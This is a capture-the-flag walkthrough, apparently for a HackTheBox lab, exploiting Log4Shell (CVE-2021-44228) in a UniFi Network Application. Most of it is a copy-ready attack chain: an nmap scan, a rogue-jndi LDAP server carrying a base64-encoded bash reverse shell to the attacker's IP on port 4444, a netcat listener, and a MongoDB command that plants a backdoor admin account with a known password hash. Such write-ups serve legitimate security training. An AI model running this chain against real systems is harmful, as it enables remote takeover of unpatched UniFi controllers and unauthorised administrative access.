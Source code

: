 #Linux #CVE-2021-44228


**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.129.18.96
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)

OPEN PORTS

* 22/tcp   open  OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
* 6789/tcp open  ibm-db2-admin?
* 8080/tcp open  http-proxy
* 8443/tcp open  ssl/nagios-nsca Nagios NSCA
* 8843/tcp open  ssl/unknown
* 8880/tcp open  cddbp-alt?

We'll follow procedure described in the following article:

https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi

Our action plan is to get a reverse shell so we can interact with the underlying Linux operating system

As outlined in the article, the vulnerability is in the **REMEMBER** values (which is the **PAYLOAD**). The picture below shows the POST request:

![image](https://user-images.githubusercontent.com/99097743/170084790-6d97d79b-23e0-4195-8b0a-2659b657123d.png)


```sh
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
 ```
 
 ![image](https://user-images.githubusercontent.com/99097743/170054746-daa8621e-f227-45a2-bd18-b3a3078ac94c.png)
 
It seems that Maven (MVN) is not installed in our localhost, we need to install it first.  
  
```sh
sudo apt-get install maven 

```
  
Reverse shell command: 

```sh
echo 'bash -c bash -i >&/dev/tcp/10.10.16.26/4444 0>&1' | base64
#This command will generate a base64 encrypted string

#To start the rogue-jndi LDAP server up
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMjYvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.16.26"

# Make sure to change the directory, base64 hash, and IP address --> VPN IP
```
![image](https://user-images.githubusercontent.com/99097743/170090287-67ec5abc-f682-4f88-9d11-3f771d3540ef.png)

#Start listening on a new terminal


```sh
sudo nc -nvlp 4444
```

We can now include payload in the REMEMBER value (see the highlighted section in the picture below) and trigger the reverse shell. In other words, the UniFi Network Application will grab the payload from rogue-jndi and then we'll get a callback in the listener terminal:

![image](https://user-images.githubusercontent.com/99097743/170090226-80b9baf1-eecb-4ab5-b48c-999f7f3cc84c.png)

Nice, we are connected!

![image](https://user-images.githubusercontent.com/99097743/170091118-34190c19-c520-427d-a778-705da14fa00d.png)

Python is not installed so please try the following command to improve the shell

```sh
script /dev/null -c bash

```
I followed the article for the next steps. We can either;
'
* Extract admin hashes and crack them (requires significant computing power -- I gave up on this)
* Add a new admin account  

First, we need to generate a password hash for the admin account:

```sh
mkpasswd -m sha-512 password
  ```
  
Next, we need to enter the new admin command (db.admin.insert) in MongoDB via our reverse shell (username = aaa)

```sh
mongo --port 27117 ace --eval 'db.admin.insert({ "email" : "aaa@localhost.local", "last_site_name" : "default", "name" : "aaa", "time_created" : NumberLong(100019800), "x_shadow" : "$6$piDZ3bwwj/g4psku$MSgskX71AEuwT/sASoYqbZ03ZiRtxtTl/OROc8mBDP4QKwAeB1VGBtIlJdEs5q7rDFpHq7dkM2dAZk/KEhRgx." })'
  ```
Once the new admin account is inserted in the MongoDB, we are ready to login to the UniFi Network Account (username: aaa, pasword: password)
Unfortunately the website did not work so I captured the flag from the official walkthorough document :)
  
![image](https://user-images.githubusercontent.com/99097743/170099143-838be26d-0d3a-479c-a619-2c1aef01ceec.png)
